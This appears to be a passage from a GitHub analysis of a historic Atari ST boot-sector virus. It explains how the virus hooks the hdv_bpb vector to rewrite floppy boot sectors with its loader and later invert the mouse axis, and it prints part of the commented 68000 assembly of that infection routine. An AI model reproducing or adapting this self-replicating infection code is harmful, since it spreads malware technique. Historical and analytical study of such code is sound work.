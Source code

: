 
#### The new hdv_bpb vector

As set in `HDV_BPB` here is the new hdv_bpb vector which is the heart of the virus. As mentionned before it is excecuted each time the BIOS function `Getbpb()`. In short:

```
BPB *Getbpb( dev )
WORD dev;
Getbpb() returns the address of the current BPB (Bios Parameter Block) for a mounted device.

- OPCODE: 7 (0x07)
- AVAILABILITY: All TOS versions.
- PARAMETERS: dev specifies the mounted device (‘A:’ = 0, ‘B:’ = 1) .
- BINDING
    move.w dev,-(sp)
    move.w #$07,-(sp)
    trap #13
    addq.l #4,sp
    Getmpb() – 3.31
- RETURN VALUE:  Getbpb() returns a pointer to the device’s BPB. The BPB is defined as follows:
    typedef struct
    {
        WORD recsiz; /* bytes per sector */
        WORD clsiz; /* sectors per cluster */
        WORD clsizb; /* bytes per cluster */
        WORD rdlen; /* sector length of root directory */
        WORD fsiz; /* sectors per FAT */
        WORD fatrec; /* starting sector of second FAT */
        WORD datrec; /* starting sector of data */
        WORD numcl; /* clusters per disk */
        WORD bflags; /* bit 0=1 - 16 bit FAT, else 12 bit */
    } BPB
```

So each time an application or the GEM needs to read the disk information, this function is called... and so the virus routine.
The code is detailed but in brief, here is what happens, the routine reads and buffers the bootsector, copy the `LOADER` on top of it, patches it to make it executable and writes it back.

Each time it happens, a counter is incremented. And if the counter reaches 5 (starting from -5 the first time), the routine will retrieve the `mousevec` vector and then will use it to call the `initmouse` XBIOS function which has an option to inverse the mouse vertical axis.

```asm
; ----------------------------------------------------------------------------------------------------------
; HDV_HPB Vector Replacement - Core virus code
; ----------------------------------------------------------------------------------------------------------
HDV_HPB_VECTOR:
            MOVE.W    4(sp),D0                          ; hdv_bpb vector
            CMP.W     #2,D0                             ; if dev is not A or B (>=2), do to original vector
            BGE       HDV_HPB_ORIGINAL_VECTOR           ; else
            MOVEM.L   A0-sp/D7/D1-D5,-(sp)              ; duplicate bootloader
            MOVE.W    D0,D7                             ; D7 contains A or B (0 or 1)
            MOVE.L    #(0 << 16 | 1),-(sp)              ; count: 1 | side: 0
            MOVE.L    #(1 << 16 | 0),-(sp)              ; track: 0 | sector: 1
            MOVE.W    D7,-(sp)                          ; dev, D7 contains A or B (0 or 1)
            CLR.L     -(sp)                             ; rsrvd => 0
            LEA       BOOTSECT_BUF.W,A5
            MOVEA.L   (A5),A5                           ;
            MOVEA.L   A5,A6                             ;
            MOVE.L    A5,-(sp)                          ; buf = (BOOTSECT_BUF)
            MOVE.W    #FLOPRD,-(sp) 	                ; FLOPRD
```